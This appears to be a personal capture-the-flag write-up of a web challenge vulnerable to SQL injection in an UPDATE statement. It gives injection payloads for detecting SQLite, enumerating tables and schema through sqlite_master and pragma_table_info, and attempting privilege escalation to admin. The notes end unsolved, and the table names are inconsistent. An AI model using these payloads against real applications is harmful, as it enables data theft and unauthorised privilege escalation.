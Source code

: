 ```yaml
---
created: 2024-06-09T16:20
updated: 2024-08-04T20:44
---
```


> I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1!
> PLEASE NOTE: What you do should, in theory, not affect other solvers. Please let us know if this is not the case.

---

SQL Injection huh, and with `UPDATE`.

Make a guess for the statement.

```sql
UPDATE table SET name="<input>" WHERE id='1'
```

With some [version checking](../../../sql.md)...

```sql
UPDATE table SET name=""||(SELECT sqlite_version())||"" WHERE id='1'
```

We can determine that it is sqlite.

```sql
UPDATE table SET name=""||(SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users'))||""
```

```
" || (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') || "

## users,roles_e25832119caec3e7

" || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='roles_aa673201a75d3012') || "

## CREATE TABLE roles_aa673201a75d3012 (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE).

" || (SELECT id||","||admin FROM roles_2d69a85c4fb75907 WHERE id='1') || "

## 1,0

" || (UPDATE roles_e25832119caec3e7 SET admin=1) || "


", admin="1"
```

Welp, idk

